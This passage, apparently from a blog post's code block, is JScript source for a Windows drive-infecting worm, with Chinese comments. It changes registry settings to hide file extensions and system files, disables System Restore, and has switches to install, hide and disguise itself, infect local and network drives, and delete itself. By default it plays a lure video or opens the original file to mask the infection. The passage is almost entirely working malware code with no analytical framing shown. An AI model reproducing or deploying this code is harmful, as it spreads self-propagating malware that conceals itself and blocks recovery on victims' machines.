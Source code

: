     } catch (e) {}
    try {
        // 隐藏文件后缀
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Advanced\\Folder\\HideFileExt\\UncheckedValue', '1', 'REG_DWORD');
    } catch (e) {}
    try {
        // 强制隐藏文件
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Advanced\\Folder\\SuperHidden\\UncheckedValue', '0', 'REG_DWORD');
    } catch (e) {}
    try {
        // 禁用系统还原
        shell.RegWrite('HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows NT\\SystemRestore\\DisableConfig', '1', 'REG_DWORD');
    } catch (e) {}
    try {
        // 禁用系统还原
        shell.RegWrite('HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows NT\\SystemRestore\\DisableSR', '1', 'REG_DWORD');
    } catch (e) {}
}

function Main() {
    var args = WScript.Arguments;
    if (GetExtensionName(ScriptPath) != 'jse' && args.length > 0) {
        switch (args.Item(0)) {
            case '/e':
                Install();
                break;
            case '/r': // 隐藏和伪装自身
                HideAndDisguise();
                break;
            case '/s': // 感染驱动器
                InfectDrives();
                break;
            case '/n': // 感染网络驱动器
                InfectNetworkDrives();
                break;
            case '/t': // 自检后删除当前脚本
                TestAndRepair();
                shell.Run('cmd /c del /q /f ' + ScriptPath, 0);
                break;
            case '/a': // 自检后以explorer静默执行当前脚本
                TestAndRepair();
                shell.Run('explorer.exe /e,/select,' + ScriptPath);
                break;
            default:
                TestAndRepair();
                try {
                    // 播放个漂亮姑娘.avi，萌萌哒
                    shell.Run('wmplayer.exe "' + ScriptPath.substr(0, ScriptPath.length - 9) + 'beautiful_girl_part_' + args.Named.Item('q') + '.avi');
                } catch (e) {}
        }
    } else {
        TestAndRepair();
        TryOpenTheOriginalFile();
    }
}

Main();
{% endcodeblock %}